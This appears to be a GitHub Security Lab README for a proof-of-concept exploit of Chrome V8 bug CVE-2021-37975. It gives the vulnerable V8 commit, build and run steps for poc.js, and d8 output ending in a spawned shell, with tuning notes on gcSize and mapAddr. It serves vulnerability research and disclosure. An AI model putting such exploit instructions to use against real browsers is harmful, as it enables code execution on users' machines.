 ## Chrome in-the-wild bug CVE-2021-37975

The analysis of this bug can be found [here](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975). This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit here is tested on `v8` version 9.4.146.16 (commit `452f57b`), which is the version shipped with Chrome 94.0.4606.71, the one before the bug is fixed, on Ubuntu 20.04. Tested on two different devices with different specs.

To test, check out `v8` at commit `452f57b` and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8`:

```
./d8 poc.js
```

On Ubuntu 20.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 poc.js
fail to find object address.
fail to find object address.
fail to find object address.
fetch failed
fail to find object address.
fail to find object address.
fetch failed
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
found instance address: 0x81d40f5 at index: 0
array address: 0x804294d
array element address: 0x8042935
fake array at: 8 index: 0
rwx address at: 0x28c7931bc000
fake array at: 8 index: 1
rwx address at: 0x28c7931bc000
shellArray addr: 0x8048d75
$ 
```

Shell code may need changing on other platforms.

The exploit is not reliable, (probably about 50 percent success rate). The variable `gcSize` may need changing depending on the device, and the variable `mapAddr` also depends on the version of v8 (it is an offset).

